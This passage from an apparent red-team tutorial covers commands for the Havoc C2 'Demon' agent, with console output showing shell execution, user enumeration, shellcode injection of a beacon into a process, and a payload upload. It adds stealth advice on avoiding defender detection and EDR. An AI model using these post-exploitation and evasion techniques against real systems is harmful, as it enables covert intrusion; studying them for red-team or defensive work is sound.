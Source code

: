 As you can see, a handful of commands can be used. Please note that many of those commands have their own limitations that we will have to get around by ourselves. With that being said, let's go over the most notable ones.

* `shell` --> Allows executing commands using *cmd.exe*. Bear in mind though that this approach involves spawning a new *cmd.exe* process each time which significantly reduces our level of stealth.

```
24/01/2024 07:47:49 [Neo] Demon » shell whoami

[*] [582B14EA] Tasked demon to execute a shell command
[+] Send Task to Agent [112 bytes]
[+] Received Output [26 bytes]

standalone01\administrator
```

* `userenum` --> Allows to quickly get a list of *local users* on the computer. It's beneficial to do it this way, as opposed to for example, executing `net users`. Reason being is simple, we spawn less processes. Executing `net users` will spawn a new `net.exe` process which is usually a sign of intrusion to defenders. But the `userenum` approach, instead, executes a *BOF* which in turn is a way stealthier manner of gathering information. We will go over BOF's more in depth a bit later.

```
24/01/2024 07:47:26 [Neo] Demon » userenum

[*] [76AF304E] Tasked demon to list user accounts on the current computer
[+] Send Task to Agent [31 bytes]
[+] Received Output [76 bytes]:

-- Administrator
-- bayden
-- DefaultAccount
-- Guest
-- WDAGUtilityAccount

[*] BOF execution completed
```

* `shellcode` --> Allows the injection of shellcode into a specific process' *PID*. Could be useful to spawn another beacon for example. The approach is not recommended to be used as modern *AV's* and *EDR* protection solutions will pick it up instantly.

```
24/01/2024 07:53:08 [Neo] Demon » shellcode spawn x64 /home/kali/SquidGuard/beacon.bin

[*] [AC31F29D] Tasked demon to fork and inject a x64 shellcode
[+] Send Task to Agent [97311 bytes]
[+] Successful injected shellcode
```

* `upload` --> Allows uploading local files to a machine. 

```
24/01/2024 07:58:29 [Neo] Demon » upload /home/kali/SquidGuard/beacon.bin C:\users\administrator\beacon.bin

[*] [30A9F2D6] Tasked demon to upload a file /home/kali/SquidGuard/beacon.bin to C:\users\administrator\beacon.bin

[*] Uploaded file: C:\users\administrator\beacon.bin (97279)
```
